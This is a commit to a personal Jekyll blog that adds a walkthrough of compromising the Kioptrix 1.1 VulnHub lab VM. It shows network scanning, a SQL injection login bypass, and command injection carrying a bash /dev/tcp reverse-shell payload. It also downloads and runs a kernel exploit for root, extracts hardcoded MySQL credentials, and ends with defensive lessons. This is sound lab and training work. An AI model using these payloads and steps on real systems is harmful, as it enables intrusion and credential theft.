

Before and after one commit to holstrater/holstrater.github.io, a Jekyll site: the page built from _pages/monitoring.md, in a window 1280 px wide and 900 px high, scrolled down 214 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; nearby versions of some CDN libraries; part of the change alters nothing that is shown; some of the changed text lies outside the part shown.

Commit message:
second post attempt

````diff
--- a/_posts/2020-04-27-kioptrix1.md
+++ b/_posts/2020-04-27-kioptrix1.md
@@ -270,4 +270,4 @@ root
 
 ## Lessons learned
 
-I gained full access of the machine through two separate entry points, the SMB service and the mod_ssl module running on the Apache web server. Both of these entries relied on outdated versions running on the target’s machine. This can be easily prevented by regularly performing updates.
+I gained full access to the target machine through two separate entry points, the SMB service and the mod_ssl module running on the Apache web server. Both of these entries relied on outdated versions running on the target’s machine. This can be easily prevented by regularly performing updates.
--- /dev/null
+++ b/_posts/2020-04-28-kioptrix11.md
@@ -0,0 +1,234 @@
+---
+title: "Gaining access to Kioptrix 1.1 (VulnHub)"
+date: 2020-04-27
+tags: [offensive security, vulnhub, gaining access]
+header:
+  image: "/images/banner2.png"
+  excerpt: "Offensive security, VulnHub, Gaining access"
+---
+
+I started out by finding the IP address of the target's machine. This can be done with ``netdiscover``, which shows the IP address along with a MAC address. Since I already knew the MAC address (shown in VirtualBox), this could be easily matched with the right IP address. I used the `-r` option to scan for a limited range in which I know the IP address will be, which saves time.
+
+
+```bash
+kali@kali:~$ sudo netdiscover -r 192.168.56.0/16
+
+Currently scanning: 192.168.93.0/16   |   Screen View: Unique Hosts
+
+ 3 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 180
+ _____________________________________________________________________________
+   IP            At MAC Address     Count     Len  MAC Vendor / Hostname
+ -----------------------------------------------------------------------------
+ 192.168.56.1    0a:00:27:00:00:00      1      60  Unknown vendor
+ 192.168.56.100  08:00:27:a6:d5:8c      1      60  PCS Systemtechnik GmbH
+ 192.168.56.108  08:00:27:52:82:cf      1      60  PCS Systemtechnik GmbH
+```
+
+I then ran an nmap scan against the target's IP address 192.168.56.108 to find out more about the target. I used the `-sS`, `-A`, `-n` and `-oA` options because in my opinion these serve a good general purpose with relatively quick but useful results. I saved the output in a file because don’t like to do multiple scans unless I absolutely have to (such as when I need different `nmap` options to fit a very specific purpose).
+
+```bash
+kali@kali:~$ sudo nmap -sS -A -n -oA kioptrix11 192.168.56.108
+Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-28 07:06 EDT
+Nmap scan report for 192.168.56.108
+Host is up (0.00032s latency).
+Not shown: 994 closed ports
+PORT     STATE SERVICE    VERSION
+22/tcp   open  ssh        OpenSSH 3.9p1 (protocol 1.99)
+| ssh-hostkey:
+|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
+|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
+|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
+|_sshv1: Server supports SSHv1
+80/tcp   open  http       Apache httpd 2.0.52 (CentOS)
+|_http-server-header: Apache/2.0.52 (CentOS)
+|_http-title: Site does not have a title (text/html; charset=UTF-8).
+111/tcp  open  rpcbind    2 (RPC #100000)
+443/tcp  open  ssl/https?
+|_ssl-date: 2020-04-28T15:07:10+00:00; +3h59m59s from scanner time.
+| sslv2:
+|   SSLv2 supported
+|   ciphers:
+|     SSL2_RC4_64_WITH_MD5
+|     SSL2_DES_64_CBC_WITH_MD5
+|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
+|     SSL2_RC2_128_CBC_WITH_MD5
+|     SSL2_DES_192_EDE3_CBC_WITH_MD5
+|     SSL2_RC4_128_EXPORT40_WITH_MD5
+|_    SSL2_RC4_128_WITH_MD5
+631/tcp  open  ipp        CUPS 1.1
+| http-methods:
+|_  Potentially risky methods: PUT
+|_http-server-header: CUPS/1.1
+|_http-title: 403 Forbidden
+3306/tcp open  mysql      MySQL (unauthorized)
+MAC Address: 08:00:27:52:82:CF (Oracle VirtualBox virtual NIC)
+Device type: general purpose
+Running: Linux 2.6.X
+OS CPE: cpe:/o:linux:linux_kernel:2.6
+OS details: Linux 2.6.9 - 2.6.30
+Network Distance: 1 hop
+
+Host script results:
+|_clock-skew: 3h59m58s
+
+TRACEROUTE
+HOP RTT     ADDRESS
+1   0.32 ms 192.168.56.108
+
+OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
+Nmap done: 1 IP address (1 host up) scanned in 106.73 seconds
+```
+
+Since the target machine had an Apache web server running on port 80 and 443, I gave that a look and found the following web page:
+
+![alt]({{ site.url }}{{ site.baseurl }}/images/kioptrix11_loginform.png)
+
+The first thing that came to mind when seeing a login form like this one was SQL injection. Entering 1'or'1'='1 in both fields showed this partcular form's susceptibility to SQL injection as I was given to some kind of application that lets you ping other machines:
+
+![alt]({{ site.url }}{{ site.baseurl }}/images/kioptrix11_console.png)
+
+I decided to check how well this application sanitizes user input in the field where an IP address is supposed to be entered. Instead of just entering an IP address to ping, I added something extra: `192.168.56.102;ls`. The `;` indicated that a new, unrelated command will follow (in this case I chose `ls`). This resulted in the following:
+
+![alt]({{ site.url }}{{ site.baseurl }}/images/kioptrix11_ls.png)
+
+This means the application is vulnerable to command injection and I can execute commands directly on the target machine through this application. I then tried using this point of entry to give myself a reverse shell on the target machine. This could be done as follows:
+
+```bash
+kali@kali:~$ nc -nlvp 7777
+```
+
+Enter the following input in the vulnerable web application: `192.168.56.102;bash -i >& /dev/tcp/192.168.56.102/7777>&1`.
+
+The result was low privilege access:
+
+```sh
+kali@kali:~$ nc -nlvp 7777
+listening on [any] 7777 ...
+connect to [192.168.56.102] from (UNKNOWN) [192.168.56.108] 51818
+Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux
+ 13:38:36 up  2:39,  0 users,  load average: 0.00, 0.00, 0.00
+USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
+uid=48(apache) gid=48(apache) groups=48(apache)
+sh: no job control in this shell
+sh-3.00$ whoami
+apache
+sh-3.00$
+```
+
+I tried using `uname -a` on the target machine for version info, but I couldn't find any exploits that worked with this method. I also checked the specific CentOS version with `ls /etc/*release*` and `cat /etc/redhat-release`, but both exploits found for this particular version don't seem to work and the source code doesn't help much in figuring out why.
+
+After seemingly running out of exploits to run, I decided to give the original list of kernel-based exploits a more thorough try rather than picking a few and moving on afterwards. Fortunately, this paid off with `9545.c`:
+
+```sh
+wget http://192.168.56.102:7777/9545.c
+--14:21:24--  http://192.168.56.102:7777/9545.c
+           => `9545.c'
+Connecting to 192.168.56.102:7777... connected.
+HTTP request sent, awaiting response... 200 OK
+Length: 9,783 (9.6K) [text/plain]
+
+    0K .........                                             100%  777.48 MB/s
+
+14:21:24 (777.48 MB/s) - `9545.c' saved [9783/9783]
+
+sh-3.00$ gcc -Wall 9545.c
+9545.c:376:28: warning: no newline at end of file
+sh-3.00$ ./a.out
+sh: no job control in this shell
+sh-3.00# whoami
+root
+```sh
+
+## Storing passwords
+
+It's worth mentioning a few other things I found after the command injection in the web application. Specifically, when I injected `ls` it listed the contents of the current directory on the target machine. That was `var/www/html`, which listed 2 files: `index.php` and `pingit.php`. Reading these files in a non-html environment (so from an actual shell on the target instead of from the web application), the following piece of code is found:
+
+```sh
+sh-3.00$ cat index.php
+<?php
+        mysql_connect("localhost", "john", "hiroshima") or die(mysql_error());
+        //print "Connected to MySQL<br />";
+        mysql_select_db("webapp");
+
+        if ($_POST['uname'] != ""){
+                $username = $_POST['uname'];
+                $password = $_POST['psw'];
+                $query = "SELECT * FROM users WHERE username = '$username' AND password='$password'";
+                //print $query."<br>";
+                $result = mysql_query($query);
+
+                $row = mysql_fetch_array($result);
+                //print "ID: ".$row['id']."<br />";
+        }
+
+?>
+```
+
+It looks like the web application uses the username `john` and the password `hiroshima` to locally connect to MySQL. These credentials work:
+
+```sh
+mysql -ujohn -phiroshima -e "show databases;"
+Database
+mysql
+test
+webapp
+```
+
+After using this to find additional useful information, I came across the following:
+
+```sh
+sh-3.00$ mysql -ujohn -phiroshima -e "show databases; use webapp; select * from users;"
+Database
+mysql
+test
+webapp
+id      username        password
+1       admin   5afac8d85f
+2       john    66lajGGbla
+```
+
+The credentials for john didn't seem to redirect to the web application (but they didn't lock me out at the login form either), perhaps something to do with privileges for that particular user. The credentials for admin did work.
+
+I also found the following:
+
+```sh
+sh-3.00$ mysql -ujohn -phiroshima -e "use mysql; select * from user;"
+Host    User    Password        Select_priv     Insert_priv     Update_priv     Delete_priv     Create_priv     Drop_priv       Reload_priv     Shutdown_priv   Process_priv  File_priv        Grant_priv      References_priv Index_priv      Alter_priv      Show_db_priv    Super_priv      Create_tmp_table_priv   Lock_tables_priv        Execute_priv  Repl_slave_priv  Repl_client_priv        ssl_type        ssl_cipher      x509_issuer     x509_subject    max_questions   max_updates     max_connections
+localhost       root    5a6914ba69e02807        Y       Y       Y       Y       Y       Y       Y       Y       Y       Y       Y       Y       Y       Y       Y       Y     YY       Y       Y       Y                                       0       0       0
+localhost.localdomain   root    5a6914ba69e02807        Y       Y       Y       Y       Y       Y       Y       Y       Y       Y       Y       Y       Y       Y       Y     YY       Y       Y       Y       Y                                       0       0       0
+localhost.localdomain                   N       N       N       N       N       N       N       N       N       N       N       N       N       N       N       N       N     NN       N       N                                       0       0       0
+localhost                       N       N       N       N       N       N       N       N       N       N       N       N       N       N       N       N       N       N     NN       N                                       0       0       0
+localhost       john    5a6914ba69e02807        Y       Y       Y       Y       N       N       N       N       N       N       N       N       N       N       N       N     NN       N       N       N                                       0       0       0
+```
+
+This indicates that the hashes for both the `john` and `root` user are the same, meaning they're using the same password (hiroshima). I tried it out and `root` did in fact use the same password, giving me full access to MySQL:
+
+```sh
+mysql -uroot -phiroshima -e "show databases;"
+Database
+mysql
+test
+webapp
+```
+
+With root access you can easily change current credentials, add new ones, etc.:
+
+```sh
+sh-3.00$ mysql -uroot -phiroshima -e "use mysql; update user set password = password('test123') where user = 'john';"
+sh-3.00$ mysql -uroot -phiroshima -e "flush privileges;"
+sh-3.00$ mysql -ujohn -phiroshima -e "show databases;"
+ERROR 1045 (28000): Access denied for user 'john'@'localhost' (using password: YES)
+sh-3.00$ mysql -ujohn -ptest123 -e "show databases;"
+Database
+mysql
+test
+webapp
+```
+
+## Lessons learned
+
+I gained low privilege access to the target machine using a vulnerability in the web application's login form hosted on the target. This vulnerability allowed me to inject SQL code, bypassing all user credential checks. From there I used a second vulnerability in the web application (specifically in pingit.php), where I was able to inject and execute arbitrary commands into the target machine. Both of these vulnerabilities could've been prevented by properly validating/sanitizing user input and using stored procedures.
+
+After that, gaining root access relied on exploiting outdated kernel and CentOS versions. This could've been prevented by regularly carrying out version updates.
+
+Finally, the way I was able to gain complete control of the MySQL service running on the target machine relied on 1) the way the passwords for this service were stored and 2) the reuse of passwords. Passwords should not be stored in plaintext but should be secured with at the very least a strong hashing algorithm. You should also never reuse passwords for multiple accounts - keep them unique.
````
Also changed, not shown: images/kioptrix11_console.png (added), images/kioptrix11_loginform.png (added), images/kioptrix11_ls.png (added), 2 other files.
